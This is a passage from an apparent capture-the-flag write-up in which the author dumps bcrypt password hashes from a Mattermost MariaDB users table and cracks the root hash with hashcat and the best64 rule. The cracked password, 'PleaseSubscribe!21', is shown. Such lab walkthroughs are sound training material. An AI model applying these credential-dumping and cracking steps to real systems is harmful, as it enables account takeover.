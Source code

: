 
I’ll start with the `users` table:

    
    
    MariaDB [mattermost]> select Username,Password from Users;
    +----------------------------------+--------------------------------------------------------------+
    | Username                         | Password                                                     |
    +----------------------------------+--------------------------------------------------------------+
    | qqqq                             | $2a$10$5B3h2oM/j0qeugNf9/MwV.nYW1uBCNBnQrJr8kS0iDBuINB4mu1HC |
    | surveybot                        |                                                              |
    | c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
    | 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
    | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
    | oxdfa                            | $2a$10$W.i4QH1wBaxqKAUipiFkbOlVUAXWjwyuzIQuPi8T.tFqxeg28kUj2 |
    | ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
    | channelexport                    |                                                              |
    | 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
    | oxdf                             | $2a$10$EA7sQu.R9OSOvLUUb/kWvetfiqKJfcn1Pzvj3xvYFZgK5Q1YJ8WyK |
    +----------------------------------+--------------------------------------------------------------+
    

A lot of those look like other users or me. I’ll focus on the root user.

### Crack Password

I’ll drop the hash into a file:

    
    
    root@kali# cat hash 
    root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
    

Based on the comments from Mattermost, I’ll create a file with the password:

    
    
    oxdf@parrot$ cat password 
    PleaseSubscribe!
    

Now I can run with a rule file to get different variations on the passwords in
the file (just one in this case). There are many in
`/usr/share/hashcat/rules`, but why not start with the one called “best”:

    
    
    root@kali# hashcat -m 3200 hash password --user -r /usr/share/hashcat/rules/best64.rule 
    ...[snip]...
    $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
    
